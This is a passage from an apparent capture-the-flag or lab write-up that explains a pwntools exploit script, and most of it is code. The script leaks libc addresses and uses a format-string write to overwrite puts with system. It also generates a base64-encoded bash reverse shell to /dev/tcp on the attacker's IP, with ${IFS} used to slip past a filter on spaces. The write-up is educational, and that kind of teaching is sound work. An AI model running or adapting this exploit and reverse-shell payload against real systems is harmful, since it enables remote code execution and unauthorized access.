 ```python
    # Send final payload
    log.debug("Sending final payload:\n%s" % final_payload)
    io.send(final_payload)
    log.info("Payload send!")
```
The sendPayload function calls genPayload, which generates a reverse-shell payload (we'll have a look at this function in a bit), then formats the request and sends it to the server.

### GenPayload function
Finally let us have a look at the genPayload function.
```python
def genPayload(IP, PORT):
    #payload = r"ping -c 4 {IP}".format(IP=IP) # POC payload
    payload = r"bash -c 'bash -i >& /dev/tcp/{IP}/{PORT} 0>&1'".format(IP=IP,PORT=PORT)
    log.debug("Unencoded payload: %s" % payload)
    return ('echo${IFS}"' + b64encode(payload.encode()).decode() + '"|${IFS}base64${IFS}-d${IFS}|${IFS}bash')
```
We use a simple bash reverse-shell as the payload. In order to fix the spaces issue, we can use the bash ${IFS} trick. We also base64- and url-encode our payload to make sure, we have no issues.

### Exploit procedure
```python
# Get IO stream
io = start()

# Leak memory-mapping
puts, system = leak(io)
io.close() # Close connection
print("")

# Overwrite puts with system
write = {puts:system}
# Tell pwntools to overwrite puts with system @offset 53
# http://docs.pwntools.com/en/stable/fmtstr.html#example-payload-generation
payload = fmtstr_payload(53, write)

log.info("Stage 3: Generating payload to overwrite puts with system")
log.success("Payload generated: %s" % payload)

# Get IP from tun0 interface
IP,PORT = get_ip_address("tun0")

print("")

log.info("Stage 4: Sending payload and getting a reverse-shell")

# Restart io, because of EOF issues
io = start()

# Send payload
threading.Thread(target=sendPayload, args=(io,IP,PORT,payload,)).start()
shell = listen(PORT, bindaddr=IP, timeout=5).wait_for_connection()
io.close()
```
The whole exploit starts with opening up the connection using the start function (created by pwn template). We then leak the memory, use pwntools to create a Format String exploit. Finally, starting a thread that should send the payload, while we are waiting for our reverse-shell to return.
